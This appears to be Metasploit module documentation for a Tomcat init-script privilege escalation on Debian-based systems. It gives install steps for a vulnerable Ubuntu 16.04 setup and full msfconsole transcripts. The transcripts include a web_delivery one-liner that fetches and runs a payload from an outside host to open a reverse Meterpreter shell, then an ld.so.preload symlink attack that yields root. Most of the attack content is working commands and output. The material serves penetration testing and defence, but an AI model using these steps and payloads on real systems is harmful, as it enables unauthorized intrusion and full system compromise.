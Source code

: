 ## Vulnerable Application

Tomcat (6, 7, 8) packages provided by default repositories on Debian-based
distributions (including Debian, Ubuntu etc.) provide a vulnerable
tomcat init script that allows local attackers who have already gained access
to the tomcat account (for example, by exploiting an RCE vulnerability
in a java web application hosted on Tomcat, uploading a webshell etc.) to
escalate their privileges from tomcat user to root and fully compromise the
target system.

Tested against Tomcat 8.0.32-1ubuntu1.1 on Ubuntu 16.04

### Install

This will install Tomcat 8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04 using the build from
[launchpad](https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282)

We also change the `tomcat8` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
sudo apt-get install libecj-java build-essential
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/libtomcat8-java_8.0.32-1ubuntu1.1_all.deb
wget https://launchpad.net/~ubuntu-security/+archive/ubuntu/ppa/+build/10427282/+files/tomcat8-common_8.0.32-1ubuntu1.1_all.deb
sudo dpkg -i *tomcat*.deb
sudo sed -i 's|/bin/false|/bin/bash|g' /etc/passwd
```

You can now `su tomcat8` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user (may be version dependent like `tomcat8`)
4. Do: `use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### CATALINA

Location of `catalina.out` file. Defaults to `/var/log/tomcat8/catalina.out`.

## Scenarios

### Tomcat8 (8.0.32-1ubuntu1.1) on Ubuntu 16.04

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/TymOdj7T0Wc
[*] Server started.
[*] Run the following command on the target machine:
wget -qO NaXlMbmV --no-check-certificate http://1.1.1.1:8080/TymOdj7T0Wc; chmod +x NaXlMbmV; ./NaXlMbmV& disown
[*] 2.2.2.2    web_delivery - Delivering Payload (207 bytes)
[*] Sending stage (1017704 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:59862) at 2023-01-16 07:23:48 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat8
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_ubuntu_log_init_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_ubuntu_log_init_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 8.0.32.pre.1ubuntu1.1
[*] Creating backup of /var/log/tomcat8/catalina.out
[+] Original /var/log/tomcat8/catalina.out backed up to /root/.msf4/loot/20230116072430_default_2.2.2.2_varlogtomcat8_824428.txt
[*] Uploading Payload to /tmp/.SG5N9O
[*] Writing '/tmp/.SG5N9O' (250 bytes) ...
[*] Compiling exploit stub: /tmp/.INpf7Gw.so
[*] Deleting /var/log/tomcat8/catalina.out
[*] Creating symlink from /etc/ld.so.preload to /var/log/tomcat8/catalina.out
[+] Waiting 1800 seconds on tomcat to re-open the logs aka a Tomcat service restart
[*] Sleeping for 2 seconds before attempting again
[*] Sleeping for 4 seconds before attempting again
[*] Sleeping for 8 seconds before attempting again
[*] Sleeping for 16 seconds before attempting again
[*] injecting /tmp/.INpf7Gw.so into /etc/ld.so.preload
[*] Escalating payload privileges via SUID binary (sudo)
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[+] Deleted /tmp/.SG5N9O
[+] Deleted /tmp/.INpf7Gw.so
[!] Tried to delete /var/log/tomcat8/catalina.out, unknown result
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:59866) at 2023-01-16 07:24:55 -0500

meterpreter > getuid
Server username: root
```